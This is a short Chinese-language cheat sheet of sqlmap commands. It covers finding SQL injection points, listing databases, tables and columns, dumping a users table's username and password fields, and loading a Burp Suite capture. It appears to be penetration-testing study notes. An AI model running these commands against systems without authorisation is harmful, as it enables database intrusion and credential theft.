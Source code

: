 ```yaml
---
title: "sqlmap"
date: 2024-12-19T21:25:05+08:00
draft: false
---
```


```bash
python sqlmap.py -h
```
查看帮助
```bash
python sqlmap.py -u "URL"
```
寻找注入点
```bash
python sqlmap.py -u "URL" --dbs
```
获取数据库库名
```bash
python sqlmap.py -u "URL" --current-db
```
获取当前数据库库名
```bash
python sqlmap.py -u "URL" -D security --tables
```
获取security库下的所有表名
```bash
python sqlmap.py -u "URL" -D security -T users --columns
```
获取字段名
```bash
python sqlmap.py -u "URL" -D security -T users -C id,username,password --dump
```
获取对应字段的全部值

特殊地，使用burpsuite截获的数据包时，参数改为
```bash
python sqlmap.py -r [path_to_the_pack]
```